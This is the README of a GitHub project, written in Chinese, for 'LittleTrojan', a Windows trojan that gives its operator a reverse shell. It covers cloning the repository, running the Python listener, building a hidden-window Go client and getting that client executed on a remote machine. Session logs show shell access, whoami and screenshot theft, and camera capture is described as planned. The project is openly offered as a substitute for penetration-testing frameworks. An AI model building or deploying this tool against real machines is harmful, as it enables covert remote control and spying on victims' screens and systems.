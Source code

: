 # LittleTrojan

![](https://raw.githubusercontent.com/littlewith/LittleTrojan/master/Logo.png)

## LittleTrojan是什么
* 是一个利用Golang和Python实现的Windows远程控制工具。
* Client使用Golang实现，Server使用python实现，两者通过socket套接字通信。
* Client通过反向连接客户端来反弹shell。
* 最终实现的目的是替代或者等同metasploit、cobalt strike等渗透测试工具。

## LittleTrojan怎么运行
* 你可能需要使用VPS或者内网穿透等转发工具，确保客户端能够反向连接到你。
* 拉取最新的项目
```bash
git clone https://github.com/littlewith/LittleTrojan
```
* 目前仅为Demo版本，暂不支持加密通信和自定义生成木马，以后会进行功能完善。
* 在你的远程机器上运行客户端，需要安装相应的python版本。

```bash
# 不传入参数就可以查看详细的操作，当出现错误，会提示出错的原因。

python Server2.py

                    DreamShell ---> HELP DOCUMENT
                    -----------------------------
                    Launch service:   Server -a [--addr] (you ip) -p [--port] (your port)
                    when in command:   [command]
                    when in shell:  [cmd-shell]  or  [bash-shell]
                    -----------------------------
                    Some useful commands:
                    exit --> close the handler and stop the client process
                    restart --> restart the handler
                    screenshot --> take a screenshot on the screen
                    camerashot --> take a photo use the camera on the client
The addr or port seems not useful!
Please try again!

# 直接通过参数来指定监听的地址（0.0.0.0表示一切）和监听的端口（4433端口）（端口需要在Init.go中进行修改）

python Server2.py -a 0.0.0.0 -p 4433
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
```

* 在Init.go文件中更改一下要连接的ip和端口
```go
client.connect("127.0.0.1", 4433)
```

* 在本地编译客户端或者在远程编译客户端，想办法在远程机器上面进行执行客户端。
```bash
go build GoTrojan -ldflags="-H windowsgui -w -s"
go_build_GoTrojan.exe
```

* 连接成功，服务端出现提示
```bash
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
Starting convert with  ('127.0.0.1', 14083)
Tue May  2 09:38:13 2023
'127.0.0.1', 14083 (command)>shell
Starting shell.....
Tue May  2 09:38:22 2023
'127.0.0.1', 14083 (shell)>
```

## LittleTrojan常用的命令

1.获取客户端的命令行: shell
```bash
# 通过shell命令即可直接得到客户端的shell

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1285)
Tue May  2 10:00:03 2023
'192.168.23.1', 1285 (command)>shell
Starting shell.....
Tue May  2 10:00:12 2023
'192.168.23.1', 1285 (shell)>whoami
legion-r7000p\andy

Tue May  2 10:00:15 2023
'192.168.23.1', 1285 (shell)>
```

2.返回或者退出: exit
```bash
# 当命令处于第一层的时候，会直接退出客户端，例如从command退出，注意会直接断线！

'192.168.23.1', 1285 (command)>exit
('192.168.23.1', 1285) Waiting handler to exit...
The handler is exited successfully: Bye!
Service Launch! Listen on  0.0.0.0 : 1234

# 当命令不处于第一层的时候，可以返回上一层，例如从shell返回到command

'192.168.23.1', 1285 (shell)>exit
Back on command...
Tue May  2 10:02:50 2023
'192.168.23.1', 1285 (command)>

```

3.捕获屏幕: screenshot
```bash
# 捕获屏幕的数据会直接存储在服务器的当前目录下

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1436)
Tue May  2 10:05:32 2023
'192.168.23.1', 1436 (command)>screenshot
screenshot-Len: 253
screenshot saved! File name is: ./screenshot535.png
Tue May  2 10:05:56 2023
'192.168.23.1', 1436 (command)>
```

4.捕获摄像头: camerashot
```bash
# 和捕获屏幕类似，捕获摄像头的图像也会传回服务器（目前还未实现）
```

5.重启服务: restart
```bash
# 如果当前连接出现问题，当回到command界面的时候，可以直接使用restart命令来重启连接

'192.168.23.1', 1934 (command)>restart
The handler will be restarted....Waiting...
Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1937)
Tue May  2 10:25:10 2023
'192.168.23.1', 1937 (command)>
```
